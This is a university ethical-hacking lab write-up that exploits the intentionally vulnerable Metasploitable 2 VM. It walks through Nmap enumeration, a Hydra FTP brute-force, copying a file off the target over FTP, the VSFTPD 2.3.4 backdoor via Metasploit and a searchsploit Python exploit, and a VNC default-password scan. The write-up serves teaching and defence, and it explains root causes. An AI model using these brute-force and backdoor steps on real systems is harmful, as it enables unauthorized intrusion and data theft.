# Exploiting Metasploitable 2 -- Service Enumeration and Exploitation

> CNS3005: Ethical Hacking | University of Technology, Jamaica
> Lab 4

---

## Overview

This lab demonstrates hands-on exploitation of real, known vulnerabilities running on Metasploitable 2 -- a deliberately vulnerable Linux virtual machine designed for practising penetration testing skills. The engagement follows a realistic workflow: service enumeration with Nmap, credential brute-forcing with Hydra, backdoor exploitation via Metasploit, manual file exfiltration over FTP, and VNC access testing.

Three distinct attack paths are documented:

1. FTP credential brute-force with Hydra and manual file exfiltration
2. VSFTPD 2.3.4 backdoor exploitation via Metasploit (CVE-2011-2523)
3. VNC credential scanning and access via Metasploit auxiliary module

---

## Lab Environment

| Host | Role | Notes |
|------|------|-------|
| Kali Linux | Attacker | Tools: nmap, hydra, metasploit, searchsploit |
| Metasploitable 2 | Target | Intentionally vulnerable Linux VM |

Both machines were placed on the same isolated virtual network. All activity was contained within this lab environment.

---

## Table of Contents

1. [Service Enumeration with Nmap](#1-service-enumeration-with-nmap)
2. [Exploiting FTP -- Hydra Brute-Force](#2-exploiting-ftp----hydra-brute-force)
3. [FTP File Exfiltration](#3-ftp-file-exfiltration)
4. [Exploiting VSFTPD 2.3.4 Backdoor (CVE-2011-2523)](#4-exploiting-vsftpd-234-backdoor-cve-2011-2523)
5. [Alternative: Python Exploit from Searchsploit](#5-alternative-python-exploit-from-searchsploit)
6. [Exploiting VNC via Metasploit](#6-exploiting-vnc-via-metasploit)

---

## 1. Service Enumeration with Nmap

Before attempting any exploitation, a full service scan was run across all 65,535 ports on the Metasploitable 2 VM. This maps every open port to the service and version running on it, forming the basis for all subsequent attack decisions.

**Command:**

```bash
nmap -sV -p- <Metasploitable2_IP>
```




The scan returned a comprehensive list of open ports and their associated service versions. Key findings that guided the rest of the lab:

| Port | Service | Version | Notes |
|------|---------|---------|-------|
| 21 | FTP | vsftpd 2.3.4 | Known backdoor (CVE-2011-2523) |
| 22 | SSH | OpenSSH 4.7p1 | Multiple older CVEs |
| 23 | Telnet | Linux telnetd | Cleartext credentials |
| 80 | HTTP | Apache 2.2.8 | Various web vulns |
| 139/445 | SMB | Samba 3.0.20 | Usermap script vuln |
| 3306 | MySQL | 5.0.51a | No root password by default |
| 5900 | VNC | Protocol 3.3 | Default password: password |
| 6667 | IRC | UnrealIRCd | Known backdoor |
| 8180 | HTTP | Apache Tomcat 5.5 | Default credentials |

---

## 2. Exploiting FTP -- Hydra Brute-Force

With vsftpd 2.3.4 confirmed on port 21, the first approach was credential brute-forcing using Hydra. In a real-world engagement, a wordlist would be built from OSINT gathered during reconnaissance. Here, a targeted wordlist was created using known default credentials for Metasploitable 2.

**Wordlist entries used (both usernames and passwords):**

```
service
msfadmin
metasploitable2
postgres
user
```

Both the username list and the password list were saved in the same working directory before running Hydra.

**Command:**

```bash
hydra -L usernames.txt -P passwords.txt ftp://<Metasploitable2_IP>
```



Hydra returned 6 valid username and password combinations. These credentials confirmed that multiple accounts on the FTP service were using default or predictable passwords, a common misconfiguration on unpatched or default-configured systems.

---

## 3. FTP File Exfiltration

Using one of the credentials discovered by Hydra, an FTP session was opened to demonstrate what an attacker can access and exfiltrate once credentials are obtained.

**Step 1 -- Connect to the FTP service:**

```bash
ftp <Metasploitable2_IP>
```



The `ftp>` prompt confirmed a successful authenticated session. The `ls` command was used to list the directory contents of the server.

**Step 2 -- Navigate the directory structure:**

```bash
ftp> ls
ftp> cd vulnerable
ftp> ls
```



A directory named `vulnerable` was discovered. Navigating into it revealed several subdirectories. Further exploration found a `samba` directory containing additional subdirectories with potentially sensitive content.

**Step 3 -- Explore a subdirectory:**

```bash
ftp> cd samba
ftp> ls
ftp> cd <subdirectory>
ftp> ls
```



Files were confirmed inside the subdirectory, demonstrating that the authenticated FTP session provided read access to areas of the filesystem that would not be accessible from the outside without valid credentials.

**Step 4 -- Exfiltrate a file:**

```bash
ftp> get <filename>
```



The `get` command transferred the selected file from the Metasploitable 2 VM to the Kali attacker machine.

**Step 5 -- Verify the file arrived on the attacker machine:**

```bash
ls /home/<user>/
```



The file was confirmed on the Kali machine at `/home/<user>/`, proving successful data exfiltration over the FTP channel.

**Impact:** An attacker with valid FTP credentials can silently copy files off the target system. Combined with the directory traversal observed here, this represents a significant data leakage risk, particularly when FTP is running as a privileged user.

---

## 4. Exploiting VSFTPD 2.3.4 Backdoor (CVE-2011-2523)

VSFTPD 2.3.4 contains a deliberately inserted backdoor that was discovered in the official download archive in 2011. When a username ending with the smiley face string `:)` is sent to the FTP service, the server opens a bind shell on TCP port 6200, granting a root shell to anyone who connects to it. This is one of the most well-known intentional backdoors in open-source software history.

**Step 1 -- Search for the exploit with Searchsploit:**

Searchsploit is the command-line interface to Exploit-DB, allowing offline searching of the full vulnerability database.

```bash
searchsploit vsftpd 2.3.4
```




The search returned a backdoor command execution exploit. This module exploits the malicious backdoor that was inserted into the VSFTPD 2.3.4 download archive.

**Step 2 -- Launch Metasploit and search for the module:**

```bash
msfconsole
msf6 > search vsftpd
```



**Step 3 -- Select the exploit module:**

```bash
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
```



**Step 4 -- Review required options:**

```bash
msf6 exploit(...) > show options
```



The `show options` output identified `RHOSTS` (the target IP) as the required parameter to set before running the exploit.

**Step 5 -- Configure and run the exploit:**

```bash
msf6 exploit(...) > set RHOSTS <Metasploitable2_IP>
msf6 exploit(...) > run
```





The exploit triggered the backdoor, and Metasploit connected to the bind shell opened on port 6200.

**Step 6 -- Verify access and run commands:**

```bash
ifconfig
```



The `ifconfig` command executed successfully on the Metasploitable 2 VM, confirming an interactive root shell. At this point, the attacker has unrestricted control over the target system -- any command, any file, any service.

**Root cause:** CVE-2011-2523 is not a vulnerability in the traditional sense. It is a deliberate backdoor inserted into the VSFTPD source code by an unknown attacker who compromised the project's distribution server. The fix is to upgrade to a clean version of vsftpd from a trusted source and verify the integrity of the binary with a checksum.

---

## 5. Alternative: Python Exploit from Searchsploit

Searchsploit also returned a standalone Python exploit for the same VSFTPD 2.3.4 backdoor, providing an alternative exploitation path without requiring Metasploit.

**Step 1 -- Locate the Python exploit:**

```bash
searchsploit vsftpd 2.3.4
```



**Step 2 -- Copy the exploit to the working directory:**

```bash
searchsploit -m <exploit_path>
```



The `-m` switch copies the exploit file to the current directory, making it ready to run without modifying the searchsploit database.

**Step 3 -- Run the Python exploit:**

```bash
python3 <exploit>.py <Metasploitable2_IP>
```


The Python exploit triggered the same backdoor and opened the bind shell on port 6200, confirming the vulnerability is exploitable through both framework-based and standalone scripted approaches. This is relevant because in a real engagement, Metasploit may not always be available or appropriate, and knowing how to use raw exploit code is a practical skill.

---

## 6. Exploiting VNC via Metasploit

VNC (Virtual Network Computing) is a remote desktop protocol running on port 5900. Metasploitable 2 runs VNC 3.3 with a default password of `password`. Metasploit's VNC login scanner module was used to confirm and exploit this.

**Step 1 -- Search for and select the VNC scanner module:**

```bash
msfconsole
msf6 > search vnc_login
msf6 > use auxiliary/scanner/vnc/vnc_login
```



**Step 2 -- Configure the module options:**

```bash
msf6 auxiliary(...) > set RHOSTS <Metasploitable2_IP>
msf6 auxiliary(...) > set THREADS 50
msf6 auxiliary(...) > show options
```



`RHOSTS` was set to the Metasploitable 2 IP address. `THREADS` was set to 50 to accelerate the scan by running parallel login attempts.

**Step 3 -- Run the scanner:**

```bash
msf6 auxiliary(...) > run
```





The scanner returned a successful login, confirming the VNC service was accessible with default credentials. A VNC session opened with this password gives full graphical remote desktop access to the target, including visibility of any running applications, files, and the ability to interact with the desktop as though sitting in front of the machine.

**Root cause:** VNC 3.3 uses a weak authentication protocol and Metasploitable 2 uses the default password. In production environments, VNC should either be disabled entirely or restricted to localhost and tunnelled over SSH, with strong non-default credentials enforced.

---

## Attack Path Summary

```
Metasploitable 2 (Target)
        |
        +-- Port 21 (vsftpd 2.3.4)
        |       |
        |       +-- Hydra brute-force --> valid credentials --> FTP session --> file exfiltration
        |       |
        |       +-- CVE-2011-2523 backdoor --> Metasploit module --> root shell
        |       |
        |       +-- CVE-2011-2523 backdoor --> searchsploit Python PoC --> root shell
        |
        +-- Port 5900 (VNC 3.3)
                |
                +-- Metasploit vnc_login scanner --> default password --> full GUI access
```

---

## Key Takeaways

**On VSFTPD 2.3.4:** This backdoor is a reminder that supply chain integrity matters. The binary installed from an official-looking source was malicious. Verifying checksums and sourcing packages from trusted repositories with signature verification is a baseline security control that would have detected this.

**On default credentials:** Both the FTP brute-force and the VNC attack succeeded because the target was running default or trivially guessable credentials. Default credential lists are publicly available and are among the first things any attacker will try. Changing defaults before deployment is one of the simplest and most impactful security controls.

**On Metasploit versus raw exploits:** The VSFTPD backdoor was demonstrated using both Metasploit and a standalone Python script. Understanding both approaches is important -- Metasploit automates a lot of the setup, but raw exploit code is more portable, less detectable, and more instructive about what is actually happening at the protocol level.

---

## Disclaimer

This lab was performed in a controlled academic environment against an intentionally vulnerable virtual machine (Metasploitable 2). All activity was contained within an isolated local network used exclusively for this lab. The techniques and tools demonstrated here must not be used against any system without explicit written authorization. Unauthorized access to computer systems is illegal under the Computer Misuse Act and equivalent legislation in all jurisdictions.

---

*University of Technology, Jamaica -- Faculty of Computing and Engineering*
*School of Computing and Information Technology*
